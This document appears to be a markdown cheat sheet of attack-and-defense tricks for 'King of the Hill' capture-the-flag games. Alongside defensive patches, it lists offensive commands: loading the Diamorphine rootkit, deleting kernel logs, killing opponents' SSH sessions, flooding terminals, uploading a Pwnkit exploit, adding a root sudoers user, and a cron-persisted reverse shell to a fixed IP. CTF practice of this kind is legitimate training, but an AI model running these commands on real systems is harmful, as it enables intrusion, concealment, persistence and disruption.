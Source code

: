 
# King of The Hill
KoTH - Attack & defense Tricks

- Using rustscan
- Connecting SSH without tty and hiding the process using rootkit
    - ssh -T user@target.ip -p 1337
        - w
        - who
        - tty
        - ls /dev/pts;
    - ps aux | grep notty
        - git clone git@github.com:m0nad/Diamorphine.git
        - make
        - insmod diamorphine.ko
        - kill -31 <PID>
        - tail -f /var/log/kern.log
        - rm /var/log/kern.log
- Kicking people out of the machine using pkill
    - pkill -t -p pts/<ID>
- Kicking all users connected in SSH
    - kill `ps aux | grep pts | awk ‘{print $2}’`;
- Kicking all people connected to a given user on SSH
    - pkill -9 -U <user>
- Using ps and grep to search for pts/sshd
    - ps aux | grep sshd
- Trolling your opponent
    - cat /dev/urandom > /dev/pts/<ID> &
    - ./nyancat > /dev/pts/<ID> &
    - ./xpl -n /dev/pts/<ID> “cat /dev/urandom”
    - ./breker.sh <ID>
- Bypass rb ash
    - vim
        - :set shell=/bin/bash
        - :shell
- Patch /etc/sudoers
    - vim /etc/sudoers
        - remove everything from except: root ALL=(ALL=ALL) ALL 
- Patch SUID
    - Find / -perm /4000 2>/dev/null
    - chmod -s /usr/bin/pkexec
- Removing SSH keys
    - cd ~/.ssh
    - rm id_rsa 
    - rm id_rsa.pub
- LFI Patch
    - <?php include ($_GET['page']); ?>    ------>  <?php include (str_replace(“../”, “”, $_GET['page'])); ?>
- Patch Command Injection
    - remove <?php …………  system(...)  ……… ?>
- Capturing flags using find and grep
    - cd /home; grep -ri thm{ 2>/dev/null
    - cd /var/www; grep -ri thm{ 2>/dev/null
    - cd /root; grep -ri thm{ 2>/dev/null
    - find / -name user.txt 2>/dev/null
    - find / -name flag.txt 2>/dev/null
    - find / -name flag 2>/dev/null
- Adding user with root privilege
    - adduser USER
    - add USER ALL=(ALL:ALL) ALL to /etc/sudoers
- Removing execution permissions form binaries
    - chmod -x /usr/bin/wget
    - chmod -x /usr/bin/curl
    - chmod -x /usr/bin/chattr
- Uploading file using SSH
    - ssh user@target.ip -p1337 “cat Pwnkit” < Pwnkit
- Protect king using while
    - while true; do echo msood > king.txt; chattr +ia king.txt; set -o noclobber king.txt; done &
- Blocking password authentication in ssh
    - PasswordAuthentication no in /etc/ssh/sshd_config
    - service sshd restart
- Using crontab to load a script with a reverse shell every 1 minute
    - echo “/bin/sh -i >& /dev/tcp/10.8.56.2/4444 0>&1” > /tmp/.persistence.sh
    - chmod +x .persistence.sh
    - vim /etc/crontab
        - * * * * * root /tmp/.persistence.sh
